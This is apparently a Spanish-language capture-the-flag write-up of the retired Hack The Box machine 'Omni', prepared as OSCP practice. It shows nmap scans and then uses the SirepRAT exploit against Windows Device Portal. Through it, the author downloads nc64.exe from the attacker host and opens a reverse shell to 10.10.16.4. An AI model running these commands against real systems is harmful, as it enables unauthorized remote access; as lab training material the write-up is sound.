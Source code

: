 ```yaml
---
layout: post
title:  "OSCP Path ~ Omni de Hack The Box (Necesario VIP)"
description: Writeup de la maquina de HackTheBox llamada Omni siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, Samba, Maquinas Retiradas, Writeup, Hacking
---
```


# Lame ~ Hack The Box to OSCP

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.204       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT     STATE SERVICE     VERSION
135/tcp   open  msrpc    Microsoft Windows RPC
5985/tcp  open  upnp     Microsoft IIS httpd
8080/tcp  open  upnp     Microsoft IIS httpd
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm= "Windows Device Portal"
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
29817/tcp open  unknown
29819/tcp open  arcserve ARCserve Discovery
29820/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port29820-TCP:V=7.91%I=7%D=9/3%Time=61327E98%P=x86_64-pc-linux-gnu%r(NU
SF:LL,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(GenericLines,10,"\
SF:*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(Help,10,"\*LY\xa5\xfb`\x04
SF:G\xa9m\x1c\xc9}\xc8O\x12")%r(JavaRMI,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc
SF:9}\xc8O\x12");
Service Info: Host: PING; OS: Windows; CPE: cpe:/o:microsoft:windows
```
Buscamos que es el servicio 'Windows Device Portal' y concatenamos 'exploit' en la busqueda:

Intrusion apartir del `SirepRAT` → `Windows Device Portal RCE` 

Lanzamos el siguiente comando en el exploit SireRAT para copiarnos el nc64.exe de nuestra maquina atacante a la maquina victima en la ruta 'C:\Windows\Temp' 
```bash
# python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "powershell" --args " -c iwr -uri http://10.10.16.4/nc64.exe -OutFile C:\Windows\Temp\nc64.exe"
```
Una vez subido, vamos a proceder a ejecutarnos una R-Shell con nuestro binario nc64.exe
```bash
┌──(root💀kali)-[/home/…/HTB/Onmi/nmap/SirepRAT]
└─# python3 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "powershell" --args " /c C:\Windows\Temp\nc64.exe -e cmd 10.10.16.4 443"
```
Nos ponemos a la escucha y procedemos a Recibir la conexion:
```bash
# rlwrap nc -vlnp 443                                                                                                                                         1 ⚙
listening on [any] 443 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.204] 49670
Microsoft Windows [Version 10.0.17763.107]
Copyright (c) Microsoft Corporation. All rights reserved.

echo %USERNAME%
echo %USERNAME%
omni$

C:\windows\system32>
```
